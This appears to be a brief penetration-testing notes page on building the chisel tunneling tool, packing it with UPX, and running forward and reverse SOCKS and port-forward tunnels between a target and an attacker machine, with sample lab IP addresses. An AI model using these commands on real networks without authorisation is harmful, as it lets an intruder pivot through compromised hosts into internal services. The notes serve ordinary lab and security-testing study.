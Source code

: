 git clone https://github.com/jpillora/chisel.git  
# Building Chisel

```
cd chisel  
go build
```
  
OPTIONAL REDUCE SIZE OF BINARY 

```
go build -ldflags="-s -w"  
upx chisel  
```
  
# Forward Tunnel
>[!NOTE] ON TARGET  

```
./chisel server -v -p $PORT --socks5  
```
  
>[!NOTE] RUN ON ATTACKER

```
./chisel client -v $IP:$PORT socks  
```
  
# Reverse Tunnel 

>[!NOTE] ON ATTACKER  

```
./chisel server --reverse --port 443  
```
  
>[!NOTE] On Target

```
.\Chisel.exe client 10.10.14.226:80 R:9200:localhost:9200  
./chisel client 192.168.118.4:8080 R:socks
```